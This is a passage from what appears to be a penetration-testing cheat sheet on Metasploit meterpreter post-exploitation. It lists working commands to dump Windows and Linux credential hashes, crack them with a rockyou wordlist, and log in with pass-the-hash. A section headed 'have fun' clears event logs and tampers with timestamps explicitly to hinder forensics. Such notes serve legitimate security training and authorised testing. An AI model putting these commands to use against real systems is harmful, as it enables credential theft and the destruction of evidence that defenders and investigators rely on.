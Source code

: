 * ➡ | ️`root`. Dump every credential stored by the system. Passwords must be [cracked/dehashed](/cyber/random/crack_password/index.md#windows-password-cracking). You can use a [hash to login](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/).

```bash
meterpreter > hashdump
# You may try to crack them using john within the msfconsole
msf6 exploit('module_used') > use auxiliary/analyze/crack_windows
msf6 exploit('module_used') > set CUSTOM_WORDLIST /usr/share/wordlists/rockyou.txt
msf6 exploit('module_used') > run
```
</div></div>

<hr class="sep-both">

## Notes for Linux meterpreter

<div class="row row-cols-md-2"><div>

You may use `upload`/`download`, but most of the time, you will be faster doing by running `shell` and doing things manually (without using metasploit modules).
</div><div>

* ➡ | ️`root`. Dump every credential stored by the system. Passwords must be [cracked/dehashed](/cyber/random/crack_password/index.md#linux-shadow-hash-cracking). You can use a [hash to login](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/).

```bash
# basically, all that to do, cat /etc/shadow
meterpreter > bg
msf6 exploit('module_used') > use post/linux/gather/hashdump
msf6 exploit('module_used') > set SESSION 1
msf6 exploit('module_used') > run
```
</div></div>

<hr class="sep-both">

## 🥳 Last step: have fun 🥳

<div class="row row-cols-md-2 mt-4"><div>

* ➡️ | `root`. Clear logs

```bash
meterpreter > clearev
```

* ➡️  | `root`. Mess with timestamp to complicate forensics

```bash
meterpreter > timestomp
```

* ➡️ Random commands

```bash
meterpreter > idletime # time the host was idle
meterpreter > ipconfig # network information
meterpreter > localtime # time and date
# others
meterpreter > getenv
meterpreter > checksum
```
</div><div>
